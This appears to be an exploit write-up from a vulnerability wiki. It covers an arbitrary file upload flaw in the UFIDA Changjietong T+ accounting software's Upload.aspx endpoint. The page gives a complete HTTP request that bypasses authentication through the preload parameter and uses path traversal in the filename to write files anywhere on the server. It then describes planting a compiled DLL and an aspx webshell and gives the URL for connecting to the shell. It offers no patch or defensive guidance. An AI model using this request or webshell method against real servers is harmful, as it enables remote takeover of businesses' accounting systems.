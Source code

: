 # UFIDA Changjietong T+ Upload.aspx Any file upload vulnerability

## Vulnerability Description

There is a vulnerability to upload any file in UFIDA Changjietong T+ Upload.aspx interface. The attacker bypasses authentication through the preload parameter to upload files to control the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA Changjietong T+</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2-2353804.png)

The vulnerable interface is ` /tplus/SM/SetupAccount/Upload.aspx`, corresponding file `App_Web_upload.aspx.9475d17f.dll`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662034256298-447ab241-2def-46e0-a97d-9dae60549044.png)

The upload file type verification is incomplete. You can upload any file to any location in the server to verify the POC.

```html
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 261
User-Agent: Mozilla/5.0 (iPod; U; CPU iPhone OS 3_0 like Mac OS X; ko-KR) AppleWebKit/535.16.4 (KHTML, like Gecko) Version/3.0.5 Mobile/8B117 Safari/6535.16.4
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVXR9biLu
Connection: close

------WebKitFormBoundaryVXR9biLu
Content-Disposition: form-data; name="File1";filename="../../../../../../../Program Files (x86)/Chanjet/TPlusStd/WebSite/1.txt"
Content-Type: image/jpeg

1
------WebKitFormBoundaryVXR9biLu--
```

Since the application is precompiled, the directly uploaded `aspx Trojan` cannot be directly used. You need to use the Webshell after uploading the `dll and compiled` files.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662034644623-835164ab-e259-41ab-9999-2a5ef462a462.png)

Upload the `dll and compiled` files to the bin directory of the web application, and upload aspx to the web root directory

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662037558563-ffb9835f-fc57-4d45-bc08-dfdf5cb2892d.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662037573454-3bc3ef0c-3ff2-46b6-b90a-ef3c72150be2.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662037605211-d44eed98-a1e1-4bac-85be-bb2909844f68.png)

Then access the written Webshell to connect

```html
/tplus/shell.aspx?preload=1	
```